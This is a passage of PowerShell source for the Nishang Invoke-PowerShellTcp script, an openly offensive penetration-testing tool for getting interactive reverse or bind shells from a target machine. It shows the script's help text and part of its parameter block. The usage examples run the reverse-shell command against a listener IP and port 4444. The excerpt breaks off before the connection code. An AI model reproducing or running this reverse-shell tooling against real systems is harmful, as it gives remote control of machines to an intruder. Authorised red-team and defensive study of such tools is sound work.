 ```powershell

function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
```